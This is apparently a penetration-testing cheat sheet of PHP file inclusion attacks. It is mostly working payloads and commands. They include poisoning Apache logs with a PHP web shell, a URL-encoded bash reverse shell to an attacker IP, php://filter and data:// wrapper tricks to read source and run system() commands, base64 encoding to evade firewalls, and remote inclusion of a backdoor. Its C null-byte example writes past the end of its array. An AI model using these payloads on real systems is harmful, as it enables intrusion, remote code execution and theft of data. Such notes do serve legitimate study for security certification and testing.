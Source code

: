 ### Remote File Inclusion Trigger Requirement
![image](https://github.com/user-attachments/assets/fc1b4b1a-d788-4a59-9b69-664c1f0dfd10)
```
allow_url_open open
```

### Contaminating Log Files to LFI
```
1.
nc -nv 10.11.0.22 80
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig

2. User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
http://10.11.0.22/menu.php?file=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

Windows log path:
C:\xampp\apache\logs\

Tricks:
Try also to change / for \  
Try also to remove C:/
```
```
PHP Filters:
Read File: curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
Base64 to bypass firewall etc: curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
Execute code: curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

### Null byte to mark the end of file
```
To write a string in PHP, we simply write
$string = ‘hello’;
Unfortunately, C does not have a string data type. To write a string in C/C++ we must use an array.
Char string[5];
string[0]=’h’;
string[1]=’e’;
string[2]=’l’;
string[3]=’l’;
string[4]=’o’;
string[5]=’\0′;
http://www.bostonwebgroup.com/script.php?file=shell.php%00.dat
```

### PHP wrappers
>When web application firewalls or other security mechanisms are in place, they may filter strings like "system" or other PHP code elements. In such a scenario, we can try to use the data:// wrapper with base64-encoded data. We'll first encode the PHP snippet into base64, then use curl to embed and execute it via the data:// wrapper.
```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64 (PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==)

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```
>we need to be aware that the data:// wrapper will not work in a default PHP installation. To exploit it, the allow_url_include7 setting needs to be enabled

### RCE via phpinfo.php
```
python3 lfito_rce.py -l "http://192.168.45.224:8000/lfito_rce.py?file=" --lhost 192.168.45.224 --lport 9001  -t 12  -i "http://192.168.151.55/dashboard/phpinfo.php"
```

